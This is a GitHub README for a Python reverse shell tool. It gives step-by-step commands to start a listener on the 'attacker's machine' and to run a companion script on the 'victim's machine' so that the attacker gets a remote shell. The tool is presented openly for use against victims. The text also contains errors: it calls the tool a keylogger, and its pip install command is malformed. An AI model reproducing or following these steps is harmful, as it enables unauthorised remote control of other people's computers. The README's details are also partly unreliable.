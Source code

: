 # This is a Linux Reverse Shell in Python

The reverse shell has two files. The `server.py` needs to run on the attacker's machine to set up the server and start listening for connections while the `victim.py` needs to run on the victim's machine to connect to the attacker's machine.

## Steps to use this keylogger:
  1. Clone this repo:
```bash
git clone https://github.com/SANTHOSH17-DOT/attack-vectors-suite.git
```
  2. cd into the `REVERSESHELL` directory
```bash
cd attack-vectors-suite\REVERSESHELL
```
  3. run `pip install requirements.txt`
  4. run `python3 server.py 0.0.0.0 9999`
  * Once you press enter the server starts:
![server](https://user-images.githubusercontent.com/60394916/220286770-9a048bf1-2aad-496c-9ebe-d95fc293dc9d.PNG)

  5. run `python3 victim.py 0.0.0.0 9999` on another terminal:

![victim](https://user-images.githubusercontent.com/60394916/220286991-8641b75b-3d4e-421d-869e-f8ee177661bd.PNG)
  * Let's go back to the attacker's terminal and we should see a shell:

![server1](https://user-images.githubusercontent.com/60394916/220287544-2c4b5574-f780-4ed8-a28e-4bdef6a3ee17.PNG)
